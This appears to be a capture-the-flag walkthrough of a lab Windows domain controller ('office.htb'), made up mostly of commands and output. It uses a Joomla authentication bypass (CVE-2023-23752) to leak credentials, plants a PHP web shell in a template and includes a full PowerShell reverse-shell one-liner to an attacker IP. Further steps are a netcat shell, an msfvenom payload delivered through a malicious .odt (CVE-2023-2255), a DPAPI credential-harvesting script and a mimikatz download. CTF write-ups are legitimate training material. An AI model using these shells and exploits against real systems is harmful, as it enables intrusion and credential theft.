Recon
nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.3
PORT STATE SERVICE VERSION
53/tcp open domain?
80/tcp open http Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-title: Home
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-02-21 02:52:47Z)
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| tls-alpn:
|_ http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after: 2019-11-08T23:48:47
| MD5: a0a44cc99e84b26f9e639f9ed229dee0
|_SHA-1: b0238c547a905bfa119c4e8baccaeacf36491ff6
|_http-title: 403 Forbidden
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after: 2024-05-09T12:36:58
| MD5: b83fab78db28734dde8411e9420f8878
|_SHA-1: 36c4cedf91853d4c598c739a8bc7a0624458cfe4
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after: 2024-05-09T12:36:58
| MD5: b83fab78db28734dde8411e9420f8878
|_SHA-1: 36c4cedf91853d4c598c739a8bc7a0624458cfe4
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49664/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
63803/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
63806/tcp open msrpc Microsoft Windows RPC
Host script results:
|_clock-skew: 7h59m59s
| smb2-time:
| date: 2024-02-21T02:55:11
|_ start_date: N/A
| smb2-security-mode:
| 311:
|_ Message signing enabled and requirednikto
nikto -h http://office.htb/
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP: 10.10.11.3
+ Target Hostname: office.htb
+ Target Port: 80
+ Start Time: 2024-02-20 19:58:55 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
+ /: Retrieved x-powered-by header: PHP/8.0.28.
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulne
+ /robots.txt: Entry '/cli/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/components/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/tmp/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/language/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/layouts/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/includes/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/cache/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/plugins/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/modules/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/administrator/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: contains 15 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ OpenSSL/1.1.1t appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
+ PHP/8.0.28 appears to be outdated (current is at least 8.1.5), PHP 7.4.28 for the 7.4 branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /: DEBUG HTTP verb may show server debugging information. See: https://docs.microsoft.com/en-us/visualstudio/debugger/how-to-enable-debugging-for-aspnet-applications?view=vs-2017
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ /index.php?module=ew_filemanager&type=admin&func=manager&pathext=../../../etc: EW FileManager for PostNuke allows arbitrary file retrieval. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2047
+ /administrator/: This might be interesting.
+ /includes/: This might be interesting.
+ /README.TXT: This might be interesting.
+ /readme.txt: This might be interesting.
+ /tmp/: This might be interesting.
+ /icons/: Directory indexing found.
+ /LICENSE.txt: License file found may identify site software.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /license.txt: License file found may identify site software.
+ /LICENSE.TXT: License file found may identify site software.
+ /htaccess.txt: Default Joomla! htaccess.txt file found. This should be removed or renamed.
+ /administrator/index.php: Admin login page/section found.
+ 8785 requests: 0 error(s) and 31 item(s) reported on remote host
+ End Time: 2024-02-20 20:07:30 (GMT1) (515 seconds)
---------------------------------------------------------------------------
+ 1 host(s) testedhttp://office.htb/readme.txt
http://office.htb/htaccess.txt
http://office.htb/administrator/
http://office.htb/license.txt
http://office.htb/icons/kebrute userenum
2024/04/04 15:27:27 > [+] VALID USERNAME: administrator@office.htb
2024/04/04 15:28:18 > [+] VALID USERNAME: Administrator@office.htb
2024/04/04 15:28:40 > [+] VALID USERNAME: ewhite@office.htb
2024/04/04 15:28:40 > [+] VALID USERNAME: etower@office.htb
2024/04/04 15:28:41 > [+] VALID USERNAME: dwolfe@office.htb
2024/04/04 15:28:41 > [+] VALID USERNAME: dmichael@office.htb
2024/04/04 15:28:41 > [+] VALID USERNAME: dlanor@office.htbInitial foothold
Joomla auth bypass CVE-2023-23752
ThatNotEasy/CVE-2023-23752 - Perform With Mass Exploiter In Joomla 4.2.8.
In the readme.txt file we can see Joomla 4.2 is used, which is vulnerable to an authentication bypass vulnerability.
- Exploit
[CVE-2023-23752] - Authentication Bypass Information Leak on Joomla! [1] - Single Scan [2] - Massive Scan [CVE-2023-23752]: 1 IP/Domain: 10.10.11.3 [CVE-2023-23752] - 10.10.11.3 .: [Scanning!] [+] Domain : 10.10.11.3 [+] Database Type : mysqli [+] Database Prefix : if2tx_ [+] Database : joomla_db [+] Hostname : localhost [+] Username : root [+] Password : H0lOgrams4reTakIng0Ver754!→ root:H0lOgrams4reTakIng0Ver754!
- Can’t use these credentials to login, lets try with the usernames from kerbrute
┌──(parallels㉿kali)-[~/kerbrute/dist] └─$ cme smb -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' -dc 10.10.11.3 -d office.htb SMB 10.10.11.3 445 DC [*] Windows 10.0 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False) SMB 10.10.11.3 445 DC [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754!→ dwolfe:H0lOgrams4reTakIng0Ver754!
Enumeration
- We can login using smbclient
impacket-smbclient office.htb/dwolfe:'H0lOgrams4reTakIng0Ver754!'@10.10.11.3share enumeration
# shares ADMIN$ C$ IPC$ NETLOGON SOC Analysis SYSVOL # use "SOC Analysis" [-] SMB SessionError: STATUS_BAD_NETWORK_NAME({Network Name Not Found} The specified share name cannot be found on the remote server.) # use SOC Analysis # ls drw-rw-rw- 0 Wed May 10 20:52:24 2023 . drw-rw-rw- 0 Wed Feb 14 11:18:31 2024 .. -rw-rw-rw- 1372860 Wed May 10 20:51:42 2023 Latest-System-Dump-8fbc124d.pcap # use IPC$ # ls -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 InitShutdown -rw-rw-rw- 4 Mon Jan 1 00:17:30 1601 lsass -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 ntsvcs -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 scerpc -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-2a0-0 -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-39c-0 -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 epmapper -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-20c-0 -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 LSM_API_service -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-3cc-0 -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 eventlog -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-48c-0 -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 TermSrv_API_service -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 Ctx_WinStation_API_service -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 atsvc -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-60c-0 -rw-rw-rw- 4 Mon Jan 1 00:17:30 1601 wkssvc -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 SessEnvPublicRpc -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-7c8-0 -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 RpcProxy\61539 -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 6360b568c6001cdd -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 RpcProxy\593 -rw-rw-rw- 5 Mon Jan 1 00:17:30 1601 srvsvc -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 netdfs -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 tapsrv -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 vgauth-service -rw-rw-rw- 3 Mon Jan 1 00:17:30 1601 ROUTER -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-298-0 -rw-rw-rw- 2 Mon Jan 1 00:17:30 1601 5EA58BF9-13F1-4F04-A152-CB928468DFFC -rw-rw-rw- 4 Mon Jan 1 00:17:30 1601 W32TIME_ALT -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-2a0-2 -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-1e28-0 -rw-rw-rw- 1 Mon Jan 1 00:17:30 1601 Winsock2\CatalogChangeListener-1e40-0 # use SYSVOL # ls drw-rw-rw- 0 Sat Apr 15 00:14:00 2023 . drw-rw-rw- 0 Sat Apr 15 00:14:00 2023 .. drw-rw-rw- 0 Sat Apr 15 00:14:00 2023 office.htb # get office.htb [-] SMB SessionError: STATUS_FILE_IS_A_DIRECTORY(The file that was specified as a target is a directory, and the caller specified that it could be anything but a directory.) # cd office.htb # cd policies # ls drw-rw-rw- 0 Wed May 10 19:30:32 2023 . drw-rw-rw- 0 Sat Apr 15 00:15:39 2023 .. drw-rw-rw- 0 Wed May 10 18:47:27 2023 {04FE5C75-0078-4D44-97C5-8A796BE906EC} drw-rw-rw- 0 Wed May 10 19:30:07 2023 {31B2F340-016D-11D2-945F-00C04FB984F9} drw-rw-rw- 0 Wed May 10 18:45:44 2023 {37238285-35D0-4D0C-A702-B489C38ED505} drw-rw-rw- 0 Wed May 10 19:29:54 2023 {6AC1786C-016F-11D2-945F-00C04fB984F9} drw-rw-rw- 0 Wed May 10 18:47:14 2023 {7B6165C4-C41D-47ED-9A37-E1A058F230C1} drw-rw-rw- 0 Wed May 10 18:47:05 2023 {9D183BB5-7581-4C19-9390-B1EBCCACCE99} drw-rw-rw- 0 Wed May 10 18:46:49 2023 {EC1FEBA4-DB03-4721-81DB-B0BAA61FFA18} - Bloodhound
bloodhound-python -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' -gc dc01.office.htb -ns 10.10.11.3 -d office.htb -c All - Using networkminer on the pcap found in one of the shares to try capturing credentials, found a kerberos hash

$krb5pa$18$tstark$OFFICE.HTB$$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc - Crack hash using hashcat
hashcat -m 19900 '$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc' /usr/share/wordlists/rockyou.txtFound credentials → tstark:playboy69
- Check access
┌──(parallels㉿kali)-[~] └─$ cme smb -u tstark -p 'playboy69' -dc 10.10.11.3 -d office.htb SMB 10.10.11.3 445 DC [*] Windows 10.0 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False) SMB 10.10.11.3 445 DC [+] office.htb\tstark:playboy69 ┌──(parallels㉿kali)-[~] └─$ cme winrm -u tstark -p 'playboy69' -dc 10.10.11.3 -d office.htb HTTP 10.10.11.3 5985 DC [*] http://10.10.11.3:5985/wsman HTTP 10.10.11.3 5985 DC [-] office.htb\tstark:playboy69Access to Joomla admin panel → administrator:playboy69

Joomla RCE
I know Joomla allows us to execute php code, often editing templates allows us to execute code in the context of a specific user.
p0wny-shell/shell.php at master · flozz/p0wny-shell - Single-file PHP shell.
- Go to system > site templates > select the available template > edit the error.php file and paste the p0wny-shell code
- Visit http://office.htb/templates/cassiopeia/error.php

- Get reverse shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"ls
- Winpeas
& "C:\users\web_account\Desktop\wp.exe" | Out-File -FilePath "C:\users\web_account\Desktop\out.txt"→ Nothing interesting
- RunasCS, trying to execute commands in the context of one of the users we have
Invoke-RunasCs -Username tstark -Password playboy69 -Command "whoami"
- Get reverse shell as tstark
Note: it didn’t work in the user’s directory
Import-Module Invoke-RunasCs.ps1 PS C:\xampp> Invoke-RunasCs -Username tstark -Password playboy69 -Command "c:\xampp\nc.exe -e powershell.exe 10.10.16.6 4444"
Found user flag → cdb499a1e8fc5868d3762eab45245a6e
Privilege escalation to root
Enumeration
- WinPeas
& "c:\users\tstark\desktop\wp.exe" | Out-File -FilePath "c:\users\tstark\desktop\wpout.txt" - Network info


→ 8083 was not found by our initial nmap scan
reverse portfwd
- Using chisel to portforward port 8083
# kali ./chisel_arm server -p 9999 --reverse # victim .\c.exe client 10.10.16.7:9999 R:8083:127.0.0.1:8083 - Web interface
Found a web interface, it has an upload feature which looks interesting

- Tried to fuzz all possible directories, but couldn’t find out where it is being uploaded
CVE-2023-2255
https://github.com/elweth-sec/CVE-2023-2255
- Upon uploading a incorrect mime type we get the error:
❌ Accepted File Types : Doc, Docx, Docm, Odt! - Note that a vulnerability exists in OpenLibre .odt files, which allows us to craft a payload to
- Create metasploit payload and upload to victim. (Using programdata folder bcs its accessible by any user)
# kali msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.6 LPORT=9001 -f exe -o shell.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload No encoder specified, outputting raw payload Payload size: 324 bytes Final size of exe file: 73802 bytes Saved as: shell.exe # msfconsole msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp payload => windows/shell_reverse_tcp msf6 exploit(multi/handler) > set lhost 10.10.16.6 lhost => 10.10.16.6 msf6 exploit(multi/handler) > set lport 9001 lport => 9001 msf6 exploit(multi/handler) > run - Generate odt payload
python3 CVE-2023-2255.py --cmd 'c:\programdata\shell.exe' --output exploit.odt - Upload using the job application form
- Wait a minute and we see a reverse shell on metasploit 🙂

→ We now have user ppotts
DPAPI
- Using the DPAPI script i wrote, found some credential files and masterkeys
dpapi.ps1
$userfolders = (Get-ChildItem -Path C:\Users -Directory).Name $userfolderscount = $userfolders.Count Write-Host "" Write-Host "========================================================" Write-Host " available users [$userfolderscount]" Write-Host "========================================================" Write-Host "" $userfolders Write-Host "" # Prompt the user for the username $username = Read-Host "Enter the username" # Check for credential files protected by the masterkeys $credpaths = @( "C:\Users\$username\AppData\Local\Microsoft\Credentials\", "C:\Users\$username\AppData\Roaming\Microsoft\Credentials\" ) $credfiles = @() #$credpattern = '^[0-9A-Fa-f]{32}$' # check for DPAPI credential files foreach ($path in $credpaths) { if (Test-Path -Path $path) { $files = Get-ChildItem -Force -Path $path foreach ($file in $files) { $credfiles += $files.FullName } } } if ($credfiles.count -eq 0) { Write-Host "No DPAPI credential files found" exit } $credfilescount = $credfiles.Count Write-Host "" Write-Host "========================================================" Write-Host " Credential files [$credfilescount]" Write-Host "========================================================" Write-Host "" $credfiles # Check for DPAPI masterkeys $masterkeypaths = @( "C:\Users\$username\AppData\Roaming\Microsoft\Protect\", "C:\Users\$username\AppData\Local\Microsoft\Protect" ) $SIDs = @() $masterkeys = @() #$keypattern = "^([a-f0-9]{8}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{12})$" foreach ($path in $masterkeypaths) { if (Test-Path -Path $path) { $files = Get-ChildItem -Force -Path $path foreach ($file in $files) { $SIDs += $file.FullName } } } foreach ($path in $SIDs) { if (Test-Path -Path $path) { $files = Get-ChildItem -Force -Path $path foreach ($file in $files) { $masterkeys += $file.FullName } } } $masterkeyscount = $masterkeys.Count Write-Host "" Write-Host "========================================================" Write-Host " Found masterkeys [$masterkeyscount]" Write-Host "========================================================" Write-Host "" $masterkeys # Export $usernamefold = ".\DPAPI_output\$username" $outCredFiles = ".\DPAPI_output\$username\credentialFiles" $outMasterkeys = ".\DPAPI_output\$username\masterkeys" mkdir -Force ".\DPAPI_output" > $null mkdir -Force $usernamefold > $null mkdir -Force $outCredFiles > $null mkdir -Force $outMasterkeys > $null foreach ($path in $credfiles) { Copy-Item $path $outCredFiles } foreach ($path in $masterkeys) { Copy-Item $path $outMasterkeys }PS C:\Users\PPotts> .\dpapi.ps1 .\dpapi.ps1 ======================================================== available users [6] ======================================================== Administrator HHogan PPotts Public tstark web_account PPotts PPotts ======================================================== Credential files [9] ======================================================== C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\18A1927A997A794B65E9849883AC3F3E C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\E76CCA3670CD9BB98DF79E0A8D176F1E C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\18A1927A997A794B65E9849883AC3F3E C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\E76CCA3670CD9BB98DF79E0A8D176F1E C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\18A1927A997A794B65E9849883AC3F3E C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\E76CCA3670CD9BB98DF79E0A8D176F1E ======================================================== Found masterkeys [6] ======================================================== C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\10811601-0fa9-43c2-97e5-9bef8471fc7d C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\BK-OFFICE C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\Preferred C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\CREDHIST C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\SYNCHIST - Uploading files to our attack system doesn’t seem to work, so we’ll have to do it on the system itself using mimikatz
curl.exe http://10.10.16.6:88/mimikatz.exe -o m.exe url.exe http://10.10.16.6:88/mimikatz.exe -o m.exe - First we have to know what masterkey is needed to decrypt the credential file
